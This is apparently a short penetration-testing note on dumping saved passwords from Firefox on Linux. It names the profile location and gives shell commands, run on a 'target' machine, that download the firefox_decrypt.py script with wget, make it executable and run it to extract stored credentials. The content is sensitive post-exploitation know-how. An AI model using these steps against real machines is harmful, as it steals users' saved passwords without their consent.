


Firefox credentials
Dump Firefox(linux) credentials
users often use their browser to remember their passwords for sites because it’s easier and
convenient
Firefox, when launched for the first time, creates a default profile for the user.
This
profile can be found in
/home/<user>/.mozilla/firefoxIt is a folder which is created with a
random alphanumeric value and a “.default” string appended
target@debian:/$ cd /home/<user>/.mozilla/firefox/
target@debian:/$ ls
DumpTo dump the password we can use:
https://github.com/unode/firefox_decrypt
target@debian:/$ wget https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py
target@debian:/$ chmod +x firefox_decrypt.py
target@debian:/$ ./firefox_decrypt.py
